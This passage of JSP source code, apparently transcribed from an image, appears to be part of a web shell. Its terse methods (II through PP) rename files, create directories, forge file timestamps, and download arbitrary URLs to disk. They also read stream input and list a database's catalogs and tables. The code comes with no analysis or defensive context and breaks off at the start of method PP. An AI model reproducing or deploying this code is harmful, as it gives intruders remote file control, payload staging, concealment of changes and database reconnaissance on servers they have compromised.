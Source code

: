 ```jsp
    void II(String s, String d) throws Exception {
        File sf = new File(s), df = new File(d);
        sf.renameTo(df);
    }
 
    void JJ(String s) throws Exception {
        File f = new File(s);
        f.mkdir();
    }
 
    void KK(String s, String t) throws Exception {
        File f = new File(s);
        SimpleDateFormat fm = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");
        java.util.Date dt = fm.parse(t);
        f.setLastModified(dt.getTime());
    }
 
    void LL(String s, String d) throws Exception {
        URL u = new URL(s);
        int n;
        FileOutputStream os = new FileOutputStream(d);
        HttpURLConnection h = (HttpURLConnection) u.openConnection();
        InputStream is = h.getInputStream();
        byte[] b = new byte[512];
        while ((n = is.read(b, 0, 512)) != -1) {
            os.write(b, 0, n);
        }
        os.close();
        is.close();
        h.disconnect();
    }
 
    void MM(InputStream is, StringBuffer sb) throws Exception {
        String l;
        BufferedReader br = new BufferedReader(new InputStreamReader(is));
        while ((l = br.readLine()) != null) {
            sb.append(l + "\r\n");
        }
    }
 
    void NN(String s, StringBuffer sb) throws Exception {
        Connection c = GC(s);
        ResultSet r = c.getMetaData().getCatalogs();
        while (r.next()) {
            sb.append(r.getString(1) + "\t");
        }
        r.close();
        c.close();
    }
 
    void OO(String s, StringBuffer sb) throws Exception {
        Connection c = GC(s);
        String[] t = { "TABLE" };
        ResultSet r = c.getMetaData().getTables(null, null, "%", t);
        while (r.next()) {
            sb.append(r.getString("TABLE_NAME") + "\t");
        }
        r.close();
        c.close();
    }
 
    void PP(String s, StringBuffer sb) throws Exception {
        String[] x = s.trim().split("\r\n");
```